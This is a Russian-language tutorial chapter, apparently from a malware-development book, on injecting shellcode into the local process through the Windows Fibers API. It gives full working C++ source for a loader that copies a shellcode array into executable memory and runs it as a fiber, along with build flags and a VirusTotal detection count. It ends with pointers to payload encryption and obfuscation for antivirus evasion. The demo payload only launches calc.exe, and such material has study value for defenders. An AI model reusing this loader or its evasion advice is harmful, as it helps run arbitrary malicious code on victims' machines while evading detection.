





\newpage
\subsection{18. инъекция кода через Windows Fibers. Простой вредоносный код на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{wodth="80%"}    

В этом посте я рассмотрю инъекцию кода в локальный процесс с использованием API Windows Fibers.    

Файбер (Fiber) - это единица выполнения, которую необходимо вручную планировать в приложении. Файберы выполняются в контексте потоков, которые их запланировали.    

### пример

Рассмотрим пример, демонстрирующий этот метод.   

Во-первых, перед планированием первого файбера, вызовем функцию `ConvertThreadToFiber`, чтобы создать область для сохранения информации о состоянии файбера:

{wodth="80%"}    

Затем выделим немного памяти для нашего полезного кода, который будет записан в выделенную память:

{wodth="80%"}    

Как видно, вызывается `VirtualAlloc` с параметром `PAGE_EXECUTE_READWRITE`, что означает, что память будет исполняемой, читаемой и записываемой.

Следующим шагом создадим файбер, который выполнит наш полезный код:    

{wodth="80%"}    

И наконец, запланируем выполнение нового файбера, который указывает на наш полезный код:

{wodth="80%"}    

Итак, наш полный исходный код (`hack.cpp`):

```cpp
/*
hack.cpp
code inject via fibers
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/11/28/malware-injection-8.html
*/
#include <windows.h>

unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

unsigned int my_payload_len = sizeof(my_payload);

int main() {

  PVOID f; // converted
  PVOID payload_mem; // memory buffer for payload
  PVOID payloadF; // fiber

  // convert main thread to fiber
  f = ConvertThreadToFiber(NULL);

  // allocate memory buffer
  payload_mem = VirtualAlloc(0, my_payload_len,
  MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  memcpy(payload_mem, my_payload, my_payload_len);

  // create a fiber that will execute payload
  payloadF = CreateFiber(NULL, 
  (LPFIBER_START_ROUTINE)payload_mem, 
  NULL);

  SwitchToFiber(payloadF);
  return 0;
}

```

Как видно, для простоты, мы используем 64-битный `calc.exe` в качестве полезной нагрузки. Не углубляясь в генерацию полезной нагрузки, просто вставим её в наш код:    

```cpp
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
```

Компилируем наш простой вредоносный код:
```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive
```

{wodth="80%"}    

Запускаем `hack.exe` на Windows 7 x64:    
```cmd
.\hack.exe
```

{wodth="80%"}    

Также отлично работает на `Windows 10 x64 (build 18363)`:  

{wodth="80%"}    

Загружаем наш вредоносный файл на virustotal:  

{wodth="80%"}    

[https://www.virustotal.com/gui/file/f03bdb9fa52f7b61ef03141fefff1498ad2612740b1fdbf6941f1c5af5eee70a?nocache=1](https://www.virustotal.com/gui/file/f03bdb9fa52f7b61ef03141fefff1498ad2612740b1fdbf6941f1c5af5eee70a?nocache=1)    

**Итак, 25 из 67 антивирусных движков обнаруживают наш файл как вредоносный.**    

Для лучшего результата мы можем комбинировать [шифрование полезной нагрузки](https://cocomelonc.github.io/tutorial/2021/09/04/simple-malware-av-evasion.html) со случайным ключом и [обфускацию функций](https://cocomelonc.github.io/tutorial/2021/09/06/simple-malware-av-evasion-2.html) с другими ключами и т. д.    
Также можно использовать [AES-шифрование](https://cocomelonc.github.io/tutorial/2021/09/15/simple-rev-c-1.html) для шифрования полезной нагрузки.

[BlackHat USA 2019 process injection techniques Gotta Catch Them All](https://i.blackhat.com/USA-19/Thursday/us-19-Kotler-Process-Injection-Techniques-Gotta-Catch-Them-All.pdf)     
[MSDN Fibers](https://docs.microsoft.com/en-us/windows/win32/procthread/fibers)    
[VirtualAlloc](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)    
[ConvertThreadToFiber](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-convertthreadtofiber)    
[CreateFiber](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createfiber)    
[SwitchToFiber](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-switchtofiber)    
[memcpy](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/memcpy-wmemcpy?view=msvc-170)    
[исходный код на Github](https://github.com/cocomelonc/2021-11-26-malware-injection-8)    
